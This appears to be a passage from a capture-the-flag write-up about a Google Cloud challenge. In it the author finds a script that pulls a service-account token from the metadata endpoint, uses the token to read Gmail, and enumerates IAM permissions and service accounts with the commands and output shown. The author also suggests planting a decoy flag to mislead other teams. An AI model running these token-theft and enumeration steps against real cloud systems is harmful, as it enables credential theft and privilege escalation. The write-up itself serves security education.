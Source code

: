 From there, we find lots of files in `/tmp`. For example, this shell script:

```bash
#!/bin/bash
# Test Gmail API from within Cloud Function context
TOKEN=$(curl -s -H \"Metadata-Flavor: Google\" \"http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token\" | python3 -c \"import sys,json; print(json.load(sys.stdin)['access_token'])\")
echo \"Token obtained: ${TOKEN:0:50}...\"
echo \"\"
echo \"Testing Gmail API from function context:\"
curl -s -H \"Authorization: Bearer $TOKEN\" \"https://gmail.googleapis.com/gmail/v1/users/tyrell.wellick@mysuperaisaas.com/messages?maxResults=1\"
```

From here, I have two realizations. 1) This is a shared challenge VM. The files in `/tmp` are probably from other teams. There's a web app that you're dropped into as the working directory, so we should leave a fake `flag.jpeg` to distract the other teams. 2) We can assume the GCP equivalent of an AWS instance profile to escalate our privileges.

I generated a GCP access token using Google's metadata endpoint: `http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token`.

Then, I used [Thunder CTF's](https://github.com/NicholasSpringer/thunder-ctf) `test-permissions.py` to enumerate permissions for the `function-sa@aisaas-project-474522.iam.gserviceaccount.com` user:

```console
$ python test-permissions.py "ya29[redacted]iOtF"
Access token: ya29...iOtF
['iam.roles.get', 'iam.roles.list', 'iam.serviceAccounts.get', 'iam.serviceAccounts.getIamPolicy', 'iam.serviceAccounts.list', 'resourcemanager.projects.get', 'resourcemanager.projects.getIamPolicy']
```

From there, we get a complete list of all the service accounts:

```console
[MacBook-Pro scripts] (master)$ gcloud iam service-accounts list
DISPLAY NAME                        EMAIL                                                            DISABLED
App Engine default service account  aisaas-project-474522@appspot.gserviceaccount.com                False
sa-implicit-c                       sa-implicit-c@aisaas-project-474522.iam.gserviceaccount.com      False
docker-sa                           docker-sa@aisaas-project-474522.iam.gserviceaccount.com          False
vm-serviceaccount                   vm-serviceaccount@aisaas-project-474522.iam.gserviceaccount.com  False
sa-implicit-a                       sa-implicit-a@aisaas-project-474522.iam.gserviceaccount.com      False
function-sa                         function-sa@aisaas-project-474522.iam.gserviceaccount.com        False
sa-secretmgr                        sa-secretmgr@aisaas-project-474522.iam.gserviceaccount.com       False
initial-sa                          initial-sa@aisaas-project-474522.iam.gserviceaccount.com         False
sa-implicit-b                       sa-implicit-b@aisaas-project-474522.iam.gserviceaccount.com      False
Default compute service account     753482425537-compute@developer.gserviceaccount.com               False
```
